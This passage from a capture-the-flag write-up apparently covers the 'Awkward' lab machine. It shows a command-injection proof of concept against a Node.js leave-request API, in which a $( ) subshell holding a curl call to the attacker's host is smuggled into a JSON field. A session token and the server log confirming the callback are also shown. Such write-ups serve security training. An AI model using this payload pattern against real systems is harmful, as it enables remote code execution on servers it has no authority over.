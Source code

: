 Alternatively, PM2 will make sure to keep the process running, so I can just kill the process and PM2 will immediately start a new one:

```

root@awkward:/# ps auxww | grep server
www-data   64268  1.0  1.4 774608 57812 ?        Ssl  23:10   0:00 node /var/www/hat-valley.htb/server
root@awkward:/# kill 64268
root@awkward:/# ps auxww | grep server
www-data   64281  0.0  1.4 776656 58556 ?        Ssl  23:11   0:00 node /var/www/hat-valley.htb/server

```

#### POC

With the checks on `reason`, `start`, and `end` removed, the vulnerable code is:

```

  const finalEntry = user + "," + reason + "," + start + "," + end + ",Pending\r"

  exec(`echo "${finalEntry}" >> /var/www/private/leave_requests.csv`, (error, stdout, stderr) => {

```

Because it’s being passed to `exec`, and because the stuff being `echo`ed is in `"` and not `'`, a subshell (`$( )`) will work nicely here. The execution will be blind to me, as the output goes into the `leave_requests.csv` file. I’ll use `curl` to connect back. I’ve written a dummy text file to `test` and served it with `python -m http.server`.

I’ll need a valid token, or I won’t reach the vulnerable code:

```

oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}'
Invalid user

```

I’ll grab a token from a logged in session. Running now returns success:

```

oxdf@hacky$ token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImNocmlzdG9waGVyLmpvbmVzIiwiaWF0IjoxNjc2NTU4MjMzfQ.fXwdefR-bakjLwjeO2BnDnoMXz2mWxN2rkkYusR8svk
oxdf@hacky$ curl http:/hat-valley.htb/api/submit-leave -H "Content-type: application/json" -d '{"reason": "$(curl http://10.10.14.6/test)", "start": "today", "end": "tomorrow"}' -b "token=$token"
Successfully added new leave request

```

There is also a request at my webserver:

```
10.10.11.185 - - [17/Feb/2023 12:15:16] "GET /test HTTP/1.1" 200 -

```
